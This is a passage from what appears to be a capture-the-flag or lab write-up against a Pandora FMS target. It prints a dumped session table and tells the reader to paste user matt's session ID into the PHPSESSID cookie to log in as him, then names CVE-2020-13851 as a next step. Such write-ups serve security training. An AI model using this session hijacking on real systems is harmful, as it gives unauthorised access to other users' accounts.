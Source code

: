 We can try to crack them, its a long story to do.

There is a `tsessions_php` table lets to the same.


```bash
[59 entries]
+----------------------------+------------------------------------------------------+-------------+
| id_session                 | data                                                 | last_active |
+----------------------------+------------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                             | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                 | 1638789018  |
| 0qg7gms27ash6cbpvq6acp901t | NULL                                                 | 1653738015  |
| 1cq3ela4hiscf9d9qajhntq2k1 | NULL                                                 | 1653737956  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                 | 1638792211  |
| 21e8enmvopuoeb8r44q7o34hik | NULL                                                 | 1653737679  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                 | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                             | 1638540332  |
| 36n1kllgd0bh31f9rerm97gbcm | NULL                                                 | 1653736273  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                 | 1638795380  |
| 3s03i6t3h6v845tkkig6c09j1s | id_usuario|s:6:"daniel";                             | 1653737556  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                 | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                             | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                 | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                 | 1638792685  |
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                             | 1638281946  |
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                             | 1641195617  |
| 7k3516hk2n20od1bhupf2bafri | NULL                                                 | 1653737430  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                 | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                             | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                 | 1638787267  |
| 9vv4godmdam3vsq8pu78b52em9 | id_usuario|s:6:"daniel";                             | 1638881787  |
| a3a49kc938u7od6e6mlip1ej80 | NULL                                                 | 1638795315  |
| a6s0p2o00rgo3io868lo5p1une | NULL                                                 | 1653738082  |
| agfdiriggbt86ep71uvm1jbo3f | id_usuario|s:6:"daniel";                             | 1638881664  |
| b1fva3f8svoulqhfjmcuf2f00f | id_usuario|s:6:"daniel";                             | 1653736657  |
| cojb6rgubs18ipb35b3f6hf0vp | NULL                                                 | 1638787213  |
| d0carbrks2lvmb90ergj7jv6po | NULL                                                 | 1638786277  |
| d28798b394ickeqmnfc4q12fkb | NULL                                                 | 1653738044  |
| d8nm5tl88u5n8274it7acl65ko | NULL                                                 | 1653738003  |
| f0qisbrojp785v1dmm8cu1vkaj | id_usuario|s:6:"daniel";                             | 1641200284  |
| fikt9p6i78no7aofn74rr71m85 | NULL                                                 | 1638786504  |
| fqd96rcv4ecuqs409n5qsleufi | NULL                                                 | 1638786762  |
| g0kteepqaj1oep6u7msp0u38kv | id_usuario|s:6:"daniel";                             | 1638783230  |
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0;  | 1638796349  |
| gf40pukfdinc63nm5lkroidde6 | NULL                                                 | 1638786349  |
| gg7tint1mddo1ou25dqo9p15fh | NULL                                                 | 1653735060  |
```
Nice! so there is matt session ID here. copy it and replace ``PHPSESSID`` cookie with it, and we are in the dashboard as matt

There is a bunch of CVE's that could works.
### [CVE-2020-13851](https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities)
